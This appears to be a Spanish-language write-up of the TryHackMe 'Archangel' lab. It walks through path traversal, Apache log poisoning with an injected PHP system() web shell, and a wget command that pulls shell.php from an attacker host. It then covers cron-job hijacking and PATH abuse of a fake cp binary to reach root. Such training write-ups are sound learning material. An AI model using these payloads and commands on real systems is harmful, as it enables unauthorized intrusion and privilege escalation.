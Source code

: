```yaml
---
title: "Archangel Writeup - Try-Hack-Me"
date: 2024-01-11
categories: [Writeups, Try-Hack-Me]
tags: [Linux, Easy]
image: 
  path: assets\img\imagenes\archangel.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "Archangel banner"
---
```

<style>
  h3 {
    color: #00FF00; /* Puedes cambiar "blue" por cualquier color que desees */
  }
</style>
### nmap

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f1d2c9d6ca40e4640506fedcf1cf38c (RSA)
|   256 637327c76104256a08707a36b2f2840d (ECDSA)
|_  256 b64ed29c3785d67653e8c4e0481cae6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web 
![img](/assets/img/imagenes/Pasted image 20231115001626.png)
Al poner el dominio, ya tenemos la primera flag.

### Fuzzing

```python
/robots.txt
/test.php
```

### Path Traversal

mirando el ``/etc/passwd`` 
![img](/assets/img/imagenes/Pasted image 20231115001838.png)

para ver los logs 

```python
GET /test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log
```

### User-Agent Spoofing (BurpSuite)

Modificamos el php mediante el parámetro user-Agent:
```python
<?php system($_GET['cmd']);?>
```
![img](/assets/img/imagenes/Pasted image 20231115002021.png)

Podemos ejecutar comandos mediante el parámetro ``&cmd=``

```python
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=id
```
![img](/assets/img/imagenes/Pasted image 20231115002056.png)

Cargamos una shell en php mediante wget. 
```python
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=wget http://10.8.189.249:8000/shell.php
```

### Shell www-data

![img](/assets/img/imagenes/Pasted image 20231115002136.png)
### movimiento lateral
hay una tarea cron que se ejecuta cada cierto tiempo, tenemos permisos de escritura en este archivo, así que vamos a meterle una shell, para pasarnos al usuario archangel.

![img](/assets/img/imagenes/Pasted image 20231115002205.png)
![img](/assets/img/imagenes/Pasted image 20231115002239.png)

### Elevar privilegios
Tenemos un binario ``backup`` que tira de ``cp`` para hacer alguna movida de copia. 

vamos a crear un ``cp`` falso el cual agregamos al path para que nos de una bash cuando ejecutemos el binario 
![img](/assets/img/imagenes/Pasted image 20231115002308.png)

![img](/assets/img/imagenes/Pasted image 20231115002336.png)
### WE ARE ROOT